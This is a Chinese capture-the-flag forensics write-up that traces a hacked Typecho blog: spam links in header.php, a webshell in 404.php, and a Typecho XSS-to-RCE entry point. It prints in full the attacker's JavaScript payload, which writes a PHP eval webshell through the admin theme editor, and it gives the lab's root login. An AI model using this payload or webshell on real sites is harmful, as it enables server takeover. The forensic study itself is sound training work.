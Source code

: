 # 第五章-Linux实战-黑链

  
  
&lt;!--more--&gt;  
## 0x00 环境分析  
```  
服务器场景操作系统 Linux  
服务器账号密码 root xjty110pora 端口 2222  
```  
## 0x01  
1、找到黑链添加在哪个文件 flag 格式 flag{xxx.xxx}  
备份源码  
`tar -zcvf /tmp/web.tar.gz /var/www/html`  
搜索一下黑链  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202406010016491.png)
在`header.php`中  
`flag{header.php}`  
2、webshell的绝对路径 flag{xxxx/xxx/xxx/xxx/}  
放到 D 盾里扫描一下或者全局搜索一下`eval`  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202406010018118.png)
发现在`404.php`中  
`flag{/var/www/html/usr/themes/default/404.php}`  
3、黑客注入黑链文件的 md5 md5sum file flag{md5}  
在`poc1.js`中发现了注入黑链的文件  
```javascript  
// 定义一个函数，在网页末尾插入一个iframe元素  
function insertIframe() {  
    // 获取当前页面路径  
    var urlWithoutDomain = window.location.pathname;  
    // 判断页面是否为评论管理页面  
    var hasManageComments = urlWithoutDomain.includes(&#34;manage-comments.php&#34;);  
    var tSrc=&#39;&#39;;  
    if (hasManageComments){  
        // 如果是，则将路径修改为用于修改主题文件的页面地址  
        tSrc=urlWithoutDomain.replace(&#39;manage-comments.php&#39;,&#39;theme-editor.php?theme=default&amp;file=404.php&#39;);  
    }else{  
        // 如果不是，则直接使用主题文件修改页面地址  
        tSrc=&#39;/admin/theme-editor.php?theme=default&amp;file=404.php&#39;;  
    }  
    // 定义iframe元素的属性，包括id、src、width、height和onload事件  
    var iframeAttributes = &#34;&lt;iframe id=&#39;theme_id&#39; src=&#39;&#34;&#43;tSrc&#43;&#34;&#39; width=&#39;0%&#39; height=&#39;0%&#39; onload=&#39;writeShell()&#39;&gt;&lt;/iframe&gt;&#34;;  
    // 获取网页原始内容  
    var originalContent = document.body.innerHTML;  
    // 在网页末尾添加iframe元素  
    document.body.innerHTML = (originalContent &#43; iframeAttributes);  
}  
  
// 定义一个全局变量isSaved，初始值为false  
var isSaved = false;  
  
// 定义一个函数，在iframe中写入一段PHP代码并保存  
function writeShell() {  
    // 如果isSaved为false  
    if (!isSaved) {   
        // 获取iframe内的内容区域和“保存文件”按钮元素  
        var content = document.getElementById(&#39;theme_id&#39;).contentWindow.document.getElementById(&#39;content&#39;);  
        var btns = document.getElementById(&#39;theme_id&#39;).contentWindow.document.getElementsByTagName(&#39;button&#39;);      
        // 获取模板文件原始内容  
        var oldData = content.value;  
        // 在原始内容前加入一段phpinfo代码  
        content.value = (&#39;&lt;?php @eval($_POST[a]); ?&gt;\n&#39;) &#43; oldData;  
        // 点击“保存文件”按钮  
        btns[1].click();  
        // 将isSaved设为true，表示已经完成写入操作  
        isSaved = true;  
    }  
}  
// 调用insertIframe函数，向网页中添加iframe元素和写入PHP代码的事件  
insertIframe();  
```  
`flag{10c18029294fdec7b6ddab76d9367c14}`  
4、攻击入口是哪里？url请求路径，最后面加/ flag{/xxxx.xxx/xxxx/x/}  
在源码中存在`output.pcag`，利用`wireshark`分析一下  
通过源码得知是`Typecho`，百度搜索得知存在`RCE`漏洞  
https://blog.mo60.cn/index.php/archives/Typecho-1-2-xss2rce.html  
通过流量包查看，正是此漏洞  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202406010041181.png)
触发点是`/index.php/archives/1/`  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202406010043306.png)
`flag{/index.php/archives/1/}`  

---

> Author: N1Rvana  
> URL: https://nlrvana.github.io/%E7%AC%AC%E4%BA%94%E7%AB%A0-linux%E5%AE%9E%E6%88%98-%E9%BB%91%E9%93%BE/  

